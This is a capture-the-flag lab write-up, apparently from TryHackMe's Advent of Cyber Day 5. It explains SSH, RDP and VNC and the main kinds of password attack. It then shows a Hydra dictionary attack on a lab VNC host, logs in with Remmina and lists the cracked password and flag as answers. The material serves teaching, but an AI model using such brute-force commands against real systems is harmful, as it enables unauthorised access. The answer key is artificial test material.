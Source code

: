 # Day_05 [Brute-Forcing] He knows when you're awake

+ Deployable Website: No
+ Deployable Container: Yes

Description: Elf McSkidy asked Elf Recon McRed to search for any backdoor that the Bandit Yeti APT might have installed. If any such backdoor is found, we would learn that the bad guys might be using it to access systems on Santa’s network.

## NOTES

1. Remote Access Services
   1. SSH - Secure Shell: It was initially used in Unix-like systems for remote login. It provides the user with a command-line interface (CLI) that can be used to execute commands.
   2. RDP - Remote Desktop Protocol: It provides a graphical user interface (GUI) to access an MS Windows system. When using Remote Desktop, the user can see their desktop and use the keyboard and mouse as if sitting at the computer.
   3. VNC - Virtual Network Computing: It provides access to a graphical interface which allows the user to view the desktop and (optionally) control the mouse and keyboard. VNC is available for any system with a graphical interface, including MS Windows, Linux, and even macOS, Android and Raspberry Pi.
2. Attacking Passwords
   1. **Shoulder Surfing**: Looking over the victim’s shoulder might reveal the pattern they use to unlock their phone or the PIN code to use the ATM. This attack requires the least technical knowledge.
   2. **Password Guessing**: Without proper cyber security awareness, some users might be inclined to use personal details, such as birth date or daughter’s name, as these are easiest to remember. Guessing the password of such users requires some knowledge of the target’s personal details; their birth year might end up as their ATM PIN code.
   3. **Dictionary Attack**: This approach expands on password guessing and attempts to include all valid words in a dictionary or a word list.
   4. **Brute Force Attack**: This attack is the most exhaustive and time-consuming, where an attacker can try all possible character combinations.

## LAUNCH THE INSTANCE

1. Start the machine
2. Let's spin up hydra to attack the password for `10.10.197.5`
   1. > hydra -P /opt/rockyou.txt vnc://10.10.197.5 -V
      1. RESPONSE: `[5900][vnc] host: 10.10.197.5   password: 1q2w3e4r`
      2. So now we know the password is `1q2w3e4r`
3. Now that we have the password let's connect to the VNC
   1. For this I will use REMMINA
      1. > remmina
      2. In here I will change it to VNC and input the IP `10.10.197.5`
      3. Input the password `1q2w3e4r`
      4. Once logged in we can see the flag on the desktop wallpaper
         1. `THM{I_SEE_YOUR_SCREEN}`

## QUESTIONS

1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password?
   1. `1q2w3e4r`
2. Using a VNC client on the AttackBox, connect to the target of IP address MACHINE_IP. What is the flag written on the target’s screen?
   1. `THM{I_SEE_YOUR_SCREEN}`
